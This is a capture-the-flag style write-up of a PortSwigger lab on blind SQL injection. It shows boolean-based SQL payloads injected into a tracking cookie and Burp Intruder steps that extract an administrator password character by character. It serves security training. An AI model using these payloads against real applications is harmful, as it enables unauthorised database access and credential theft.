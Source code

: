# Lab: Blind SQL injection with conditional responses

## Lab's description

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

**End goal:** log in as the `administrator` user.

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

![](1.png)

Here is my cookie: `wflhKe4JqJmhwH9j`. Send this to Repeater and I will change it to `wflhKe4JqJmhwH9j' and '1'='1`

The `Welcome back` message appears in the response. But if I change it to `wflhKe4JqJmhwH9j' and '1'='2`

The `Welcome back` message does not appear in the response.

Next step, we need to confirm that the database has table named `users`.

`wflhKe4JqJmhwH9j' and (select 'a' from users limit 1) = 'a`

We can see the message `Welcome back` that means it works. Now we gonna see if the username `administrator` exits or not.

`wflhKe4JqJmhwH9j' and (select 'a' from users where username = 'administrator') = 'a`

We can see the message `Welcome back` so it works. Next we gonna see the length of the password. Send the target to Intruder and loop it from 1 to 20.

`wflhKe4JqJmhwH9j' and (select 'a' from users where username = 'administrator' and length(password) > 1) = 'a`

Add `§` to number `1`.

![](9.png)

Add values from 1 to 20 in payload and `Start attack`

![](8.png)

![](7.png)

We can see the length is different, because it does not respond the `Welcome back` message.

After that, we will discover character-by-character for the password.

`wflhKe4JqJmhwH9j' and (select substring(password,1,1) from users where username = 'administrator') = 'a`

Add `§` to number `1` and letter `a`. Change `Attack type` to `Cluster bomb`.

![](6.png)

Set first payload `Payload type` to `number`, from `1` to `20`.

![](5.png)

Set second payload's value from `a` to `z` and `0` to `9`.

![](4.png)

Change the `Settings`, add `Welcome` to `Grep-Match` for searching the string `Welcome` in respond.

![](3.png)

Filter the `Welcome` column.

![](2.png)

After half hour, I got this:

`Username: administrator`

`Password: 0ywsbb0jakvcasgvzwsr`

**Source:** [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses)
